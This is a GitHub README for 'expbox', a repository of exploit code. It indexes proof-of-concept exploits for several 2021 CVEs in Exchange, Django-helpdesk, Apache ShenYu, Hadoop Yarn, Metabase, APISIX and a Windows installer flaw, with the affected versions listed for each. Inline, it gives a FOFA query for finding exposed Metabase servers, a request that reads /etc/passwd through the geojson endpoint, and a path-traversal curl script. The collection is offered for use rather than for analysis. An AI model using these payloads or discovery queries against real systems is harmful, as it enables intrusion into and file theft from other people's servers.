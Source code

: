 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)
```
<= 0.3.0
```

[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

[CVE-2021-42321 Exchange Pre-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
[Windows 0day](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.
